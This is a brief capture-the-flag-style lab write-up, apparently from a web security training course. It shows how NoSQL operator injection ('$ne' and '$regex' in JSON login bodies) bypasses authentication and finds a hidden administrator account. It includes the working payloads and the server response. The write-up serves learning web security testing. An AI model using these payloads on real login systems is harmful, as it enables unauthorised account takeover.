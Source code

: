 # Exploiting NoSQL operator injection to bypass authentication
First, I wanted to figure out if I could use operators to login to a user. So I modified my login request like this:
```json
{
    "username": "wiener",
    "password": "peter"
}
```
to 
```json
{
    "username": "wiener",
    "password": {
        "$ne" : "asdasdasd"
    }
}
```
It allowed me to login. I then tried as administrator like this
```json
{
    "username": "administrator",
    "password": {
        "$ne" : "asdasdasd"
    }
}
```
But no user named administrator was present. I then tried to return all users
```json
{
    "username": {
        "$ne" : "asdasdasd"
    },
    "password": {
        "$ne" : "asdasdasd"
    }
}
```
But it complained that it returned too many users. Then I decided to user regex to find the user.
```json
{
    "username": {
        "$regex" : "a"
    },
    "password": {
        "$ne" : "asdasdasd"
    }
}
```
This returned no users. I then tried every letter until `d` where the server responded with
```
HTTP/2 302 Found
Location: /my-account?id=adminjzst3rvm
Set-Cookie: session=K95dbnsTb9pF14C48EuPai7YTppABGPz; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
Then I logged into the account by intercepting my login request and changed it to
```json
{
    "username": "adminjzst3rvm",
    "password": {
        "$ne" : "asdasdasd"
    }
}
```
This solved the lab